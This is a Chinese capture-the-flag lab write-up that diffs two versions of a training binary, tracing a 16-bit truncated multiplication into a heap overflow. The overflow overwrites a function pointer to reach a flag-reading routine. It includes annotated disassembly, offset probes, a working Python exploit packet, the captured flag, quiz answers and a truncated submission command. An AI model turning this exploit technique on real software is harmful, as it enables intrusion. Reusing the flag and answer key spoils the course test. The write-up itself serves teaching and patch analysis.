

# 7-4 系统层漏洞利用与逆向分析 · 安全补丁对比分析-G4（16 位截断乘法 → 堆溢出 → 相邻块函数指针劫持）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 系统层漏洞利用与逆向分析-安全补丁对比分析-G4（sectionID `6717`，课程内 number 29，题目内部编号 `C035-G4-F`） |
| 分类 | Pwn / 逆向分析 / 补丁对比（Linux ELF64：`uint16_t` 截断乘法 → 堆缓冲区溢出 CWE-190→CWE-122 → 堆上函数指针劫持） |
| 题目描述 | 题面提供两个 ELF 附件：`challenge_v1` 是同一程序的早期版本、`challenge_v2` 是后续修复版本，靶机运行的是 `challenge_v1`；要求对比两个版本、找出漏洞点并拿到 flag。靶机只映射 22（SSH）与 **70**，而 **70 就是题目服务本身**（裸 TCP、非 HTTP，**没有单独的 flag 兑换服务**）。 |

Flag 题（questionID=9405）题干原文：

> * 本题提供两个附件：`challenge_v1` 是同一程序的早期版本，`challenge_v2` 是后续修复版本；靶机运行的是早期版本 `challenge_v1`。请对比两个版本，找出漏洞点并拿到 flag。

Note：本题是本批 `C035` 系列的第四题，与前三题的差分线索各不相同，正好构成一组互补经验：

- **7-1**：v2 去掉了 `gets`（导入表 15 → 14 项）⇒ `ret2win` 栈溢出；
- **7-2**：v2 新增 `fputs`/`fwrite` 导入 ⇒ v1 把用户输入直接当格式串；
- **7-3**：导入表逐字节相同，真差异是「释放端置 `used[id]=0` + 使用端校验存活」两处 UAF 补丁；
- **7-4（本题）**：导入表**同样逐行完全相同**，`strings` 里**唯一新增的字符串只有 `packet too large`**；归一化比对后**唯一真实语义差异在 `process_packet`**：v1 用 **16 位截断乘积**分配、却用 **64 位完整乘积**拷贝（分配窄、拷贝宽），v2 补了「乘积上限护栏 + 分配改用完整 64 位乘积」两处，**缺一不可**。其余函数（`main`/`read_flag`/`print_packet_processed`）的差异**全部是 GCC 重排与寄存器分配**。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台（自签名证书，`curl` 需 `-k --noproxy '*'`），课程 ID `1639`，本章节 `sectionID` `6717`（课程内 number 29）。平台账号与口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或个人身份信息 |
| 题型 | 3 道单选（9385 `C035-G4-S1`、9387 `C035-G4-S2`、9389 `C035-G4-S3`，`questionType=2`）+ 1 道多选（9391 `C035-G4-M`，`questionType=3`）+ 1 道 Flag 填空（9405 `C035-G4-F`，`questionType=1`、`checkMode=1`），共 5 题，`answersTotal=5` |
| 判分机会 | 题面接口返回 `isResubmit=false`、`endOrNot=true` ⇒ 平台不提供官方重答入口；提交后 5 题 `answerTimes` 均为 1，**一次通过** |
| 靶机实例 | envID `1211`（实验环境名 `C035-G4-F`），podID `kz0zaklhq3t0l6nikqm67e1li`，容器名 `s-149989`，image `172.17.0.105:8083/t-11637/c035-g4-f:2026`；交付时 `state=Running`，`targetPorts=[22,70]` |
| 端口映射（实测 `portInfos`） | `172.17.0.13:14760 → 22`（SSH，密码未知，未使用）、**`172.17.0.13:14761 → 70`（题目服务本身）** |
| 题目服务 | `172.17.0.13:14761`，裸 TCP；**连上没有任何 banner**，直接发 `help` / `1` / `AAAA` 也**没有任何回显**（原因见步骤 6：`main` 用 `fread(buf,1,0x10004,stdin)`，读满 65540 字节或读到 EOF 才继续，客户端必须 `shutdown(SHUT_WR)` 制造 EOF） |
| Flag 形式 | **没有 token、没有独立兑换服务**：v1 的 `read_flag()` 自己 `open("/flag", O_RDONLY)` → `read` → `write(1,…)` → `_exit(0)`，利用成功即由该服务**直接打印 flag** |
| 附件 | `challenge_v1.elf`：**14592 B**（题面附件表显示 14.25 K），MD5 **`142b4b2af4ba7deb9843ccea1e566632`**（靶机在跑的版本）<br>`challenge_v2.elf`：**14592 B**（14.25 K），MD5 **`c5c2ff29d3600364effb69a9e91dd9d7`**（修复版）；两文件长度完全相同 |
| 附件属性 | 均为 `ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, stripped`（GCC Ubuntu 11.4.0 / Ubuntu 22.04）；本次复核 ELF 头与程序头：`e_type=0x2`（**ET_EXEC，非 PIE**）、`GNU_STACK flags=0x6`（**RW ⇒ NX 生效**）、存在 `GNU_RELRO` 段（部分 RELRO）、全文件无 `__stack_chk_fail` ⇒ **无 stack canary** |
| 章节实验环境 | 实例通过 `environments` / `instances` 接口与「我的虚拟机」页面核对（截图 08）；平台页面显示该实例端口映射为 `+2`（需展开才见具体端口），端口 `14760→22 / 14761→70` 的权威来源是 `instances` 接口的 `portInfos` |
| 本机工具 | macOS 上**没有** pwntools / pefile / Ghidra / readelf / checksec，也无法直接执行 ELF；用 Apple LLVM `objdump -T/-h/-d -M intel` 做导入表、节表与反汇编分析，用 Python 3 原生 `socket` / `struct` 自写协议客户端与 payload 生成器；**本机 Docker 可用**（Docker Desktop 29.4.3，`--platform linux/amd64` 的 `python:3.12-slim` 实测可跑，容器内 glibc 2.41、`uname -m`=`x86_64`）用于本地动态验证；截图用无头 Chrome（playwright-core 驱动系统 Chrome），脱敏用 PIL/numpy |
| 选择题判分 | **9385=C、9387=B、9389=D、9391=A+B+C+D**（提交前已独立判定并落盘 `.local/process/7-4-answers-rationale.md`，与 Lead 独立判定逐项一致）；`GET /api/student/get/answerHistory?sectionID=6717&contestMode=0` 返回 **5/5 `isCorrect=true`**（含 9405 flag）。按惯例本文不展开选择题解析 |

## 解题过程

### 1. 静态侦察：导入表逐行相同，只能靠函数边界归一化比对（截图 01）

先核对附件与基本属性（原始输出 `logs/14-imports-identical.txt`、`logs/15-strings-diff.txt`）：

```console
$ md5 files/challenge_v1.elf files/challenge_v2.elf
142b4b2af4ba7deb9843ccea1e566632
c5c2ff29d3600364effb69a9e91dd9d7

$ objdump -T files/challenge_v1.elf      # 动态符号表（导入表）
DYNAMIC SYMBOL TABLE:
0000000000000000      DF *UND* (GLIBC_2.2.5) free
0000000000000000      DF *UND* (GLIBC_2.34)  __libc_start_main
0000000000000000      DF *UND* (GLIBC_2.2.5) _exit
0000000000000000      DF *UND* (GLIBC_2.2.5) puts
0000000000000000      DF *UND* (GLIBC_2.2.5) fread
0000000000000000      DF *UND* (GLIBC_2.2.5) write
0000000000000000      DF *UND* (GLIBC_2.2.5) close
0000000000000000      DF *UND* (GLIBC_2.2.5) read
0000000000000000  w   D  *UND*              __gmon_start__
0000000000000000      DF *UND* (GLIBC_2.14) memcpy
0000000000000000      DF *UND* (GLIBC_2.2.5) malloc
0000000000000000      DF *UND* (GLIBC_2.2.5) setvbuf
0000000000000000      DF *UND* (GLIBC_2.2.5) open
0000000000404080 g    DO .bss  (GLIBC_2.2.5) stdout
0000000000404090 g    DO .bss  (GLIBC_2.2.5) stdin

$ diff <(objdump -T v1 | sed s/challenge_v1/X/) <(objdump -T v2 | sed s/challenge_v2/X/ | sort)
>>> IDENTICAL：导入表逐行完全相同（diff 无任何输出）
$ objdump -p files/challenge_v{1,2}.elf | grep NEEDED
  NEEDED       libc.so.6          # 两版都只有 libc.so.6
```

**导入表里没有任何「新增/删除 API」的线索**（13 个 UND 符号 + `stdout`/`stdin` 的 COPY 重定位全同），所以本题不能像 7-1/7-2 那样靠导入表一眼定位，必须落到 `.text` 指令级。

节表与字符串实测（`logs/15-strings-diff.txt`）：

```text
节名       v1 addr    v1 size    v2 size
.text      0x401190   0x342      0x319      (-0x29)   <== 变化
.rodata    0x402000   0x3c       0x4d       (+0x11)   <== 变化（= "packet too large\0"）
（其余节的 addr / size 两版完全相同；两文件长度都是 14592）

$ diff <(strings challenge_v1.elf) <(strings challenge_v2.elf)
2d1      < "V5M                                   （build-id 字节差异，噪音）
22,23c21,22  < AWAVAUATUSH / []A\A]A^A_        （push 指令字节被当成字符串，噪音）
25a25    > packet too large                     ★ 唯一新增字符串（v2 的补丁护栏提示）
```

**朴素文本 diff 不可用**：两版函数布局被 GCC 重排过——v1 `main@0x40142f`、`_start@0x401190`，v2 `main` 被挪到 `0x401190`、`_start` 后移到 `0x401230`，地址与分支目标全变，直接 diff 满屏假差异（7-3 踩过的同一个坑）。因此写了 `diff_norm.py`：**先按函数边界切分，再把地址 / 分支目标 / RIP 相对量抹掉，然后逐指令比对**。

函数地址映射（人工按边界切分）：

| 函数 | v1 | v2 | 归一化后的判定 |
| --- | --- | --- | --- |
| `_start` | `0x401190` | `0x401230` | 重排（无业务语义） |
| `print_packet_processed` | `0x401276` | `0x401320` | **仅尾调用优化**（6 条 → 3 条指令，语义相同） |
| **`process_packet`** | **`0x40128f`** | **`0x401330`** | **唯一真实语义差异（75 → 68 条指令）** |
| `read_flag`（win） | `0x4013a2` | `0x401420` | 同逻辑，仅寄存器分配不同（34 → 36 条） |
| `main` | `0x40142f` | `0x401190` | 同逻辑，仅被重排 + 寄存器分配（36 → 40 条） |

需要说明的是，`diff_norm.py` 的**自动判定把 4 个函数全部标成 `*** DIFFERENT ***`**（因为指令条数本来就不同，脚本只做归一化文本比对）；「只有一个函数是真实语义差异」是**人工逐函数读改动的结论**，三处非本质差异的具体形态如下：

```text
print_packet_processed  v1(6 条): endbr64; sub rsp,0x8; lea rdi,[rip+0xd7e] #0x402004 "packet processed";
                                  call puts; add rsp,0x8; ret
                        v2(3 条): endbr64; lea rdi,[rip+0xc49] #0x402004; jmp puts
                                  ⇒ 仅尾调用优化（call+ret 合并成 jmp）
read_flag               v1: push rbx;  sub rsp,0x100; mov esi,0x0; mov eax,0x0; … mov edi,0x0
                        v2: push r12; push rbp; sub rsp,0x108; xor esi,esi; xor eax,eax; … xor edi,edi
                                  ⇒ 逻辑逐句对应（open→read→write→close→_exit），只是寄存器从 rbx 换成 r12/rbp、
                                    0 值写法从 mov 换成 xor、mov rdx,rax 被提前
main                    v1: sub rsp,0x18（buf = rsp）
                        v2: push rbp; sub rsp,0x10（buf = rbp）、末尾补 nop dword ptr [rax] 对齐
                                  ⇒ fread(buf,1,0x10004,stdin) 与 call process_packet 两处**一字不差**
```

原始比对全文：`logs/13-normalized-func-diff.txt`。


### 2. 静态定位 v1 漏洞点：16 位截断分配 + 64 位完整拷贝（截图 02）

`objdump -d -M intel --start-address=0x40128f --stop-address=0x4013a2`（`logs/01-v1-text.asm`）核心段：

```asm
; ---- v1 process_packet @0x40128f ----
40129d: cmp  rsi,0x3
4012a1: jbe  0x401361              ; len <= 3 -> puts("too short"); return -1
4012ad: movzx eax,byte [rdi+0x1]   ; \
4012b1: shl  eax,0x8               ;  |  w = *(uint16_t*)(buf+0)   （小端）
4012b4: movzx r12d,byte [rdi]      ;  |
4012b8: or   r12d,eax              ; /
4012bb: movzx eax,byte [rdi+0x3]   ; \
4012bf: shl  eax,0x8               ;  |  h = *(uint16_t*)(buf+2)   （小端）
4012c2: movzx r14d,byte [rdi+0x2]  ;  |
4012c7: or   r14d,eax              ; /
4012ca: mov  edi,r12d
4012cd: imul edi,r14d              ; edi = (int)w * (int)h            ← 32 位乘法
4012d1: test di,di                 ; \  只看低 16 位
4012d4: mov  eax,0x1               ;  |
4012d9: cmove edi,eax              ;  | if ((uint16_t)edi == 0) edi = 1
4012dc: movzx edi,di               ; /  ★★★ 分配大小 = 16 位截断后的乘积（最大 65535）
4012df: call malloc                ;  -> r15 = 小缓冲区
4012f0: mov  edi,0x40
4012f5: call malloc                ;  -> r13 = 0x40 字节块
401306: lea  rax,[rip-0x97]        ; 0x401276 = print_packet_processed
40130d: mov  [r13],rax             ; ★ 函数指针存放在 r13[0]
401311: sub  rbx,0x4               ; rbx = len - 4
401315: movzx r12d,r12w            ; \  (uint16_t)w
401319: movzx r14d,r14w            ;  |  (uint16_t)h      ← 先截断回 16 位
40131d: imul r12,r14               ; /  r12 = 64 位完整乘积
401321: cmp  rbx,r12
401324: mov  rdx,r12
401327: cmovbe rdx,rbx             ; rdx = min((uint64_t)w*h, len-4)
40132b: lea  rsi,[rbp+0x4]
40132f: mov  rdi,r15
401332: call memcpy                ; ★★★ memcpy(malloc 块, buf+4, min(64 位积, len-4))  堆溢出
401337: mov  rax,[r13]
40133b: call rax                   ; ★★★ 紧接着调用函数指针 -> 控制流劫持
40133d: mov  rdi,r15 ; call free    ; 之后 free(r15)、free(r13)
```

**漏洞成因链（CWE-190 → CWE-122）**：

```text
① 分配长度： sz = (uint16_t)(w*h)          —— 32 位乘积再取低 16 位 ⇒ 最大 65535
② 拷贝长度： n  = min((uint64_t)w*h, len-4) —— 64 位完整乘积       ⇒ 可达 65536 甚至更大
③ 二者不同源、宽度不同 ⇒ 「分配窄、拷贝宽」⇒ 堆缓冲区溢出
④ dst 后面紧邻的就是 malloc(0x40) 得到的 slot 块，其 [0] 位置放着函数指针
⑤ 溢出后可覆盖该函数指针，而紧接着的 call [r13] / call rax 立即调用它
   ⇒ 控制流劫持原语（非 PIE，win 地址为编译期常量 0x4013a2）
```

取经典组合 `w=256, h=256`：`w*h = 65536 = 0x10000`，低 16 位为 **0** ⇒ `malloc(1)`；而拷贝长度是 `min(65536, len-4)`，只要报文够长就能最多写 65536 字节进去。

**win 函数 `read_flag @0x4013a2`**（`logs/01-v1-text.asm`）：`open("/flag", O_RDONLY)` → `read(fd, rsp, 0x100)` → `write(1, rsp, n)` → `close(fd)` → `_exit(0)`；`open` 失败或读到 0 字节时 `write(1, "no /flag\n", 9)`。**它无参数、无返回值，与 `call rax` 的调用形式完全吻合**，是天然的劫持目标。

v1 的 `.rodata`（实测）：`0x402004 "packet processed"`、`0x402015 "too short"`、`0x40201f "oom"`、`0x402023 "/flag"`、`0x402029 "no /flag\n"`、`0x402033 "no input"`。

![v1 漏洞点：`process_packet` 反汇编逐条注解（截断乘法 → `malloc(1)` → 64 位长度 `memcpy` → `call [r13]`）与 `read_flag`（自读 `/flag` 并打印）；真实命令回显的渲染稿（非终端实拍）](screenshots/02-静态-v1漏洞点-截断乘法导致堆溢出.png)

### 3. 静态定位 v2 补丁点：乘积上限护栏 + 完整长度分配（截图 03）

`objdump -d -M intel --start-address=0x401330 --stop-address=0x401420`（`logs/02-v2-text.asm`）核心段：

```asm
; ---- v2 process_packet @0x401330 ----
401338: cmp  rsi,0x3
40133c: jbe  0x4013e3              ; -> puts("too short"); return -1
401342: movzx r12d,word [rdi+0x2]  ; r12 = h = *(uint16_t*)(buf+2)
401347: movzx ecx, word [rdi]      ; ecx = w = *(uint16_t*)(buf+0)
401350: mov  rdx,r12
401353: imul r12,rcx               ; r12 = (uint64_t)w * (uint64_t)h   ← 64 位完整乘积
401357: test cx,cx
40135a: je   0x40136e              ; w == 0 -> 跳过检查（乘积必为 0，安全）
40135c: test dx,dx
40135f: je   0x40136e              ; h == 0 -> 跳过检查
401361: cmp  r12,0x10000           ; ★★★ 补丁 A：乘积上限
401368: ja   0x4013f4              ; -> puts("packet too large"); return -1
40136e: test r12,r12
401371: mov  edi,0x1
401376: cmovne rdi,r12             ; ★★★ 补丁 B：malloc((uint64_t)w*h ?: 1)
40137a: call malloc                ; 用完整 64 位乘积分配
40138b: mov  edi,0x40 ; call malloc
40139d: sub  rbx,0x4
4013a1: mov  rdx,r12
4013ab: cmp  rbx,r12
4013b5: cmovbe rdx,rbx             ; rdx = min(64 位积, len-4)  —— 与分配长度同源
4013bd: call memcpy
4013c2: mov  rax,[r13] ; call rax   ; 调用函数指针的路径原样保留
```

v2 的 `.rodata`（实测）：新增 `0x40201f "packet too large"`，其余字符串整体后移 —— `0x402030 "oom"`、`0x402034 "/flag"`、`0x40203a "no /flag\n"`、`0x402044 "no input"`。`.rodata` 的 `+0x11`（17 字节）正好是 `"packet too large\0"`。


### 4. v1 → v2 补丁对比（本题核心产出）

#### 4.1 为什么必须按函数边界归一化比对

| 误导源 | 具体表现 |
| --- | --- |
| 导入表相同 | `objdump -T` 逐行相同、`NEEDED` 只有 `libc.so.6` ⇒ 从导入表完全看不出补丁 |
| 函数整体重排 | v1 `main@0x40142f` / `_start@0x401190`；v2 `main@0x401190` / `_start@0x401230`，**`main` 被 GCC 移到最前** |
| 同函数内部重排与寄存器分配 | `read_flag`：v1 用 `rbx` + `sub rsp,0x100`，v2 用 `r12/rbp` + `sub rsp,0x108`，且 `mov esi,0x0` → `xor esi,esi`、末尾 `mov edi,0x0` → `xor edi,edi`；`main` 里也有 `mov esi,0x0` → `xor esi,esi` 与 `mov rdx,rax` 的提前 |
| 指令字节被当成字符串 | `strings` diff 里 `AWAVAUATUSH`（`push r15;push r14;…` 的机器码）也被算成"差异"，纯属噪音 |
| 尾调用优化 | `print_packet_processed` 由 6 条变 3 条（`call puts; add rsp,8; ret` → `jmp puts`），指令条数变了但语义没变 |

处理办法：按 4 个业务函数的边界切分 → 每条指令归一化（寄存器名保留、立即数里的地址换符号、RIP 相对注释删除、分支目标统一成 `<TARGET>`）→ **同名函数之间**做 unified diff。结果：**唯一真实语义差异集中在 `process_packet`**；`print_packet_processed` 只是尾调用优化，`read_flag` / `main` 语义全同。

#### 4.2 补丁对照表

| 维度 | v1（漏洞版，靶机在跑） | v2（修复版） |
| --- | --- | --- |
| 乘积计算 | 先用 `imul edi,r14d` 做 **32 位**乘法，再 `movzx edi,di` 取 **低 16 位** | `movzx ecx / movzx r12d` 后 `imul r12,rcx`，得到 **64 位完整乘积** |
| 分配大小 | `malloc( (uint16_t)(w*h) ?: 1 )`，**最大 65535**，可出现 `malloc(1)` | `malloc( (uint64_t)w*h ?: 1 )`，**与完整乘积一致** |
| 乘积上限检查 | **无** | `if (w && h && (uint64_t)w*h > 0x10000) { puts("packet too large"); return -1; }`（新字符串 `@0x40201f`，对应补丁 A） |
| memcpy 长度 | `min((uint64_t)w*h, len-4)` —— 与分配长度**不同源** | `min((uint64_t)w*h, len-4)` —— 与分配长度**同源** |
| 指令条数 | 75 条 | 68 条（v1 那串 `imul edi,r14d` + `movzx edi,di` 的截断处理被去掉，是 v2 指令数反而变少的主要原因；两版 `.text` 整体 v2 小 `0x29`） |
| 可溢出性 | `w=256,h=256` ⇒ 分配 1 字节、最多拷 65536 字节 ⇒ **堆溢出，可改写相邻 0x40 块的函数指针** | 分配 65536 字节、最多拷 65536 字节 ⇒ 不溢出；`w=257,h=256` 直接拒绝 |
| 实测同包结果（步骤 5） | `w=256 h=256` → **打印 `/flag` 内容** | `w=256 h=256` → `packet processed`；`w=257 h=256` → `packet too large` |
| 共享不变的部分 | `[r13] = print_packet_processed`（`0x401276` / `0x401320`）后 `call rax`；`read_flag`（`0x4013a2` / `0x401420`）逻辑完全一致 | 同左 |

#### 4.3 两处补丁为什么缺一不可

- **只补 A（乘积上限）、不改分配**：`w*h <= 0x10000` 时 16 位截断确实恒等，本用例不再溢出；但边界值 `w=h=256`（乘积恰好 `0x10000`）仍然走「`(uint16_t)` 截断成 0 ⇒ `malloc(1)`」这条路，**只要 `len-4` 够大照样溢出**——实测 v2 用完整乘积分配后 `w=256,h=256` 才安全，正说明「分配改完整乘积」也是必需的。
- **只补 B（完整乘积分配）、不加上限**：溢出被消除（分配长度与拷贝长度同源），但 `w=h=0xffff` 这类报文会请求约 4 GB 内存，**直接退化成 `malloc` 失败 / 资源耗尽**（`oom` 分支），构造超大乘积即可打 DoS。上限护栏把"乘积不可能截断"的取值域钉死在 `<= 2^16`，避免这种副作用。
- 两处并存 ⇒ 既保证「分配与拷贝同源同类型」（根本修复），又把可接受的乘积范围收敛到不会失败的量级。**这也正是 9391 多选考「补丁分析策略」的现实背景：单看一处改动都会低估/高估补丁的完备性。**

#### 4.4 修复评价

- 补丁 A 是"把截断不可能发生的取值域钉死"：乘积 ≤ `2^16` 时 16 位截断才是恒等的，逻辑上足以消除不一致；
- 补丁 B 才是根本修复：**分配长度与拷贝长度必须同源同类型**（本题 v1 的病灶正是"一个用 16 位、一个用 64 位"）；
- 更通用的写法：`__builtin_mul_overflow()`，或手写 `if (h && w > SIZE_MAX / h) return -1;`，或者干脆让 `size_t` 一路贯穿、**不在中间落回 `uint16_t`**；
- 两个版本的 `[r13] = print_packet_processed; call rax` 这条**间接调用链两版都保留了**：v2 只是让它不再可被溢出改写。换句话说，v2 修的是"能改"，没有动"改了就会被调用"的结构性风险（加固建议见文末）。

### 5. 本机 Docker 动态验证：协议、偏移 32 的来源（截图 04）

macOS 跑不了 ELF，但本机 Docker 的 `linux/amd64` 可以（原始输出 `logs/16-local-docker-evidence.txt`）：

```console
$ docker version --format '{{.Server.Version}}'
29.4.3
$ docker run --platform linux/amd64 -d --name c74 -v <files>:/work:ro python:3.12-slim sleep 3600
$ docker exec c74 sh -c 'ldd --version | head -1; uname -m'
ldd (Debian GLIBC 2.41-12+deb13u4) 2.41
x86_64
$ docker exec c74 sh -c 'cp /work/*.elf /t/ && chmod +x /t/*.elf &&
    echo DUMMY_FLAG_LOCAL_TEST{heap_trunc_overflow} > /flag'      # 容器里没有真 flag，用占位串验证通路
```

**基线（确认协议是"一次性读完 + 按长度前缀解析"，不是行协议）**：

| 输入 | 输出 | 说明 |
| --- | --- | --- |
| `printf "AAA"` | `too short` | `len<=3` 被挡 |
| `printf ""` | `no input` | `fread` 返回 0 |
| `printf "AAAA"` | `packet processed` | `w=h=0x4141`，乘积巨大但 `len-4=0` ⇒ `memcpy` 拷 0 字节 |

**函数指针偏移探针**（`python3 mkpayload.py off=N`，报文固定 `w=256,h=256` 使 `malloc(1)`）：

| `fnptr_off` | 输出 | 落点解释 |
| --- | --- | --- |
| 24 | `packet processed` + `munmap_chunk(): invalid pointer` + `Aborted` | 8 字节 win 地址落在 `r13` 块头部的 `size` 字段上，函数指针没被动 ⇒ 正常打印后 `free` 检测到 size 被改坏 |
| 28 | `Segmentation fault` | 同 24，`size` 字段被改坏；写入的 win 地址被错位拆开（低 4 字节进 `size`、高 4 字节进 `[r13]`），`[r13]` 的高 4 字节本就是 `0`，**推断**被调用指针成了 `0` |
| **32** | **`DUMMY_FLAG_LOCAL_TEST{heap_trunc_overflow}`** | **命中**：正好覆盖 `[r13]` 这个函数指针 |
| 36 | `Segmentation fault` | 偏过 4 字节，`[r13]` 变成 `0x4141414141414141` |
| 40 | `Segmentation fault` | 完全越过函数指针槽 |

**偏移 32 的来源（glibc x86-64 堆布局推导，与实测一致）**：

```text
malloc(1)        请求 1 字节   -> 实际 chunk size = 0x20（最小 chunk），用户可用 0x18 = 24 字节
malloc(0x40)     请求 0x40     -> chunk size 0x50，其 chunk 起始 = 前一块 chunk 起始 + 0x20
因此：r15 = malloc(1) 的用户指针，r13 = malloc(0x40) 的用户指针 = r15 + 0x20 = 偏移 32
拷贝从 r15 开始写：偏移 0..23 填满第 1 块可用区；偏移 24..31 覆盖第 2 块的 size 字段；
                  偏移 32..39 正好覆盖 [r13] —— 把 8 字节 0x4013A2 写在这里即劫持成功
```

**v1/v2 同一发包对照（补丁有效性，单变量实验）**：

| 报文 | v1 | v2 |
| --- | --- | --- |
| `w=256 h=256`（积 `0x10000`，16 位截断 → `malloc(1)`） | **打印 `/flag` 内容** | `packet processed`（走完整乘积 `malloc(65536)`，拷 40 字节装得下） |
| `w=257 h=256`（积 65792，16 位截断 → `malloc(256)`） | `packet processed` | `packet too large`（补丁 A 护栏命中） |

注意 `0x10000` 这个边界值：v2 的判据是 `ja`（**严格大于**），所以 `w=h=256` 会**放行**——它之所以安全，靠的是补丁 B 按完整乘积分配，而不是上限检查；这也再次说明两处改动是分工而非冗余。


### 6. 服务协议与「无 banner」的真相，44 字节报文拿下 flag（截图 05）

**「连上没 banner、发什么都没回显」不是服务挂了，而是输入模型的必然现象**：

```asm
main（两版的关键几条一字不差，只是寄存器选择不同）:
  mov  rdi, buf             ; buf（栈上 0x10000+ 字节；v1 用 rsp，v2 用 rbp）
  mov  esi,0x1              ; size  = 1
  mov  edx,0x10004          ; nmemb = 65540
  mov  rcx,[stdin]          ; FILE *stream = stdin
  call fread                ; ★ fread 会一直读，直到「读满 65540 字节」或「遇到 EOF/错误」才返回
  test rax,rax
  je   <puts("no input")>   ; 读回 0 字节 -> no input
  mov  rsi,rax              ; len = 实际读到的字节数
  call process_packet(buf, len)
```

在裸 TCP 服务里，客户端连上后**不关闭写方向就不会有 EOF**，`fread` 于是永远阻塞在"还差一些字节"上——服务的任何 `puts` 都还没执行，于是表现成**没有 banner、`help` / `1` / `AAAA` 全部静默**（这正是 Lead 侦察阶段观察到的现象，也是任务书里"无 banner"的来源）。**客户端必须在发完报文后 `shutdown(SHUT_WR)` 制造 EOF**，`fread` 立刻返回，服务才开始解析。

协议（按 `process_packet` 反汇编复原）：`<u16 w 小端><u16 h 小端><payload>`，共 4 字节头 + payload；`len` 是包含头部在内的总长度。

利用报文（**44 字节**）：

```python
import socket, struct
WIN_V1 = 0x4013A2                       # v1 的 read_flag()
pkt = struct.pack('<HH', 256, 256) + b'A' * 32 + struct.pack('<Q', WIN_V1)

s = socket.create_connection(('172.17.0.13', 14761), timeout=6)
s.sendall(pkt)
s.shutdown(socket.SHUT_WR)              # ★ 制造 EOF，否则服务永远在 fread 里阻塞
print(s.recv(4096))
```

```text
报文逐字节：
  00 01 00 01                      w=256 (0x0100)、h=256 (0x0100)，小端
  41 41 ... 41    （32 字节 'A'）  填到函数指针位置（前 24B 填满第 1 块可用区，24..31 压掉第 2 块 size 字段）
  a2 13 40 00 00 00 00 00          覆盖 [r13] = 0x4013A2 = read_flag
```

实测输出（`logs/04-remote-exploit.txt`，复现 3 次 flag 稳定一致）：

```console
$ python3 exploit_remote.py 172.17.0.13 14761 win
target 172.17.0.13:14761
[EXPLOIT w=256 h=256 trunc(65536)=0 -> malloc(1)] len=44  ->  b'vmc{r3yhSrmRqJOoS0Ukjq083dAq5BUZPonK}\n'
```

`read_flag` 末尾是 `_exit(0)`，所以服务打印完 flag 直接断连。**没有 token、没有兑换服务、没有任何二次提交环节。**


### 7. 失败对照七条：把因果先钉死（截图 06）

所有对照都针对同一靶机 `172.17.0.13:14761`，每条独立开一条 TCP 连接（`logs/05-remote-controls.txt`、`logs/06-remote-controls2.txt`）：

| # | 报文 | 实测回显 | 结论 |
| --- | --- | --- | --- |
| ① | `len=3`（`AAA`） | `too short` | `len<=3` 前提被挡，`process_packet` 根本没进入解析 |
| ② | `len=0`（连上即 half-close） | `no input` | `fread` 返回 0，`main` 走 `je` 分支 |
| ③ | `len=4`（`AAAA`） | `packet processed` | 乘积虽巨大（`w=h=0x4141`），但 `len-4=0` ⇒ `memcpy` 拷 0 字节，无溢出 |
| ④ | `fnptr_off=28`（`len=40`） | `Segmentation fault (core dumped)` | 8 字节 win 地址落在 `r13` 块的 `size` 字段上，函数指针没被改对 |
| ⑤ | 溢出 32 字节但不回填（`A`*32，`len=36`） | `packet processed` + `double free or corruption (out)` + `Aborted (core dumped)` | **证明溢出确实越界改写了 chunk 元数据**（函数指针未被触碰 ⇒ 仍正常打印；随后 `free` 时 glibc 检测到 size 被改坏而中止） |
| ⑥ | `fnptr_off=32` + `0x4141414141414141` | `Segmentation fault (core dumped)` | 偏移对了、目标地址是非法值 ⇒ 说明**被调用的指针完全由我们写入的 8 字节控制** |
| ⑦ | `fnptr_off=32` + `0x4013A2` | 打印 `vmc{...}` | 唯一成功路径（④/⑥ 分别排除了"偏移错"与"地址错"，⑤ 证明越界写真实发生，③ 说明"乘积大"本身并不等于溢出） |

另外两条同源证据：`fnptr_off=24`（本机 Docker，步骤 5 第 1 行）给出 `munmap_chunk(): invalid pointer`，与 ⑤ 的 `double free or corruption (out)` 共同说明**越界写真实发生了、且落到的是堆管理元数据**；而 ⑥ 的 `0x4141…` 与 ⑦ 的 `0x4013a2` 只差那 8 字节，正好构成"地址可控"的单变量对照。

注：`Segmentation fault (core dumped)` 这行由外层 shell 打印，说明服务是被 `sh -c` 包装启动的（二进制本身不会打印这行）。


### 8. 提交答案与平台判分（截图 07、09），实例与端口映射核对（截图 08）

四道选择题在提交前独立判定并落盘（`.local/process/7-4-answers-rationale.md`），与 Lead 判定逐项一致（9385=C、9387=B、9389=D、9391=A+B+C+D），随后一次性提交 5 题：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE_IP/api/student/submitAnswers" \
  -F 'sectionID=6717' \
  -F 'answers={"questionID": 9385, "answer": "{\"answer\": [\"C\"], \"num\": 1}"}' \
